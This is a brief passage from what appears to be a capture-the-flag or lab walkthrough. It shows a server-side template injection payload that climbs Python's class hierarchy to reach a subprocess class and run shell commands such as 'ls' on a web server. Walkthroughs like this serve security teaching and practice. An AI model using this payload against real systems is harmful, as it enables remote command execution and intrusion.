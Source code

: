     ![image 50](img/image50.png)

    We're in the `/var/www/html/orangejuice/` directory.

10. See what else is in this directory. You can do this by changing pwd to ls.

    ```
    {{2022.__class__.__mro__[1].__subclasses__()[312]('ls', shell=True, stdout=-1).communicate()}}
    ```

    ![image 51](img/image51.png)
